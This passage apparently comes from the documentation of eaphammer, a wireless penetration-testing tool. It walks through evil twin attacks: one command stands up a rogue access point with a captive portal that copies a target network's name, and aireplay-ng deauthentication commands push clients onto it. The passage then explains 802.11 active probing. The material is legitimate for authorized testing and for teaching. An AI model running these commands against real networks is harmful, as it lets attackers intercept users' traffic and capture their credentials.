 ### Forced Roaming Using Enticement
To entice clients to roam to an evil twin, just create an access point with the same ESSID as the target network:

```bash
./eaphammer -i wlan0 --essid exampleCorp --captive-portal
```

The attack process should look similar to what you see in the following GIF:

![animation - forced roaming using enticement](https://github.com/s0lst1c3/readme-images/raw/master/evil-twin-enticement-stitched.2019-10-14%2022_10_44.gif)

High powered antennas can help with this style of attack, although it still may be difficult to achieve consistent results against Enterprise networking hardware.

### Forced Roaming Using Coercion

To coerce clients to roam to an evil twin, first create a rogue access point point with the same ESSID as the target network:

```bash
./eaphammer -i wlan0 --essid exampleCorp --captive-portal
```

Next, deauthenticate the target client devices from their access point, forcing them to roam to your evil twin:

```bash
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up
iwconfig wlan1 channel 1
aireplay-ng -0 0 -a de:ad:be:ef:13:37
```

The entire attack process should look similar to what you see in the following GIF:

![coercion example](https://github.com/s0lst1c3/readme-images/raw/master/evil-twin-coercion.2019-10-14%2021_57_14.gif)

# Active Probing

The second network selection algorithm used in 802.11 is known as Active Probing. Client devices that use active probing continuously send out probe request frames to determine what APs are within range, as well as what their capabilities are. Probe requests come in two forms: directed and broadcast. Directed probe requests are addressed to a specific ESSID, and are the client's way of checking if a specific network is nearby.


Clients that use directed probing will send out probe requests for each network in its PNL. It should be noted that directed probing is the only way of identify the presence of nearby hidden networks. Broadcast probe requests work almost exactly the same way, but are sent with the SSID field set to NULL. This addresses the the probe broadcast probe all nearby access points, allowing the the station to check if any of its preferred networks are nearby without revealing the contents of its PNL.

![active scanning animation](https://raw.githubusercontent.com/s0lst1c3/readme-images/master/active-scanning.2019-10-14%2023_02_09.gif)

